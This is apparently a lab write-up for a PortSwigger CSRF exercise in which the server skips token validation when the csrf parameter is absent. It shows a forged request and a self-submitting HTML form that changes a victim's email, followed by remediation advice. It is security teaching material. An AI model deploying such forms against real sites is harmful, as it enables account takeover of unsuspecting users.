






# CSRF where token validation depends on token being present

**Lab:** PortSwigger Web Security Academy — *CSRF where token validation depends on token being present* (Practitioner).

> The email-change functionality is vulnerable to CSRF. Host an HTML page on the exploit server that changes the viewer's email. Credentials: `wiener:peter`.

## The flaw class: token-presence dependency

A subtle implementation bug: the server validates the CSRF token **only when the token parameter exists**. The logic is roughly "if a `csrf` parameter was submitted, check it; otherwise, proceed." That is different from an *invalid* token (which is rejected) — a **missing** token slips straight through.

```http
POST /email/change            ← csrf present, validated
csrf=abc123&email=user@normal.com
```
```http
POST /email/change            ← csrf absent, NOT validated
email=evil@attacker.com
```

The attacker does not need to guess or reproduce the token — they simply remove it.

## 1. Capture the request

Log in as `wiener:peter`, submit an email change, and send the request to Repeater. Note the `csrf` parameter in the body.







## 2. Confirm the bug

Replay the request **with** the token — it succeeds. Now **delete the entire `csrf` parameter** (not just its value) and replay. The server still accepts it. That proves validation only happens when the parameter is present.





## 3. Build and deliver the exploit

Because the server accepts the request with no token, a plain CSRF form that simply omits the `csrf` field works:

```html
<html>
  <!-- CSRF PoC -->
  <body>
    <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@mail.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Host it on the exploit server and deliver it to the victim.



## Why the attack works

The code treats "no token supplied" as "no token to check" rather than "reject". An attacker's forged form never includes the token, so it never triggers validation.

## Remediation

Reject any state-changing request that does not carry a valid, session-bound token. Absence of the token must be a failure, exactly like an incorrect token.
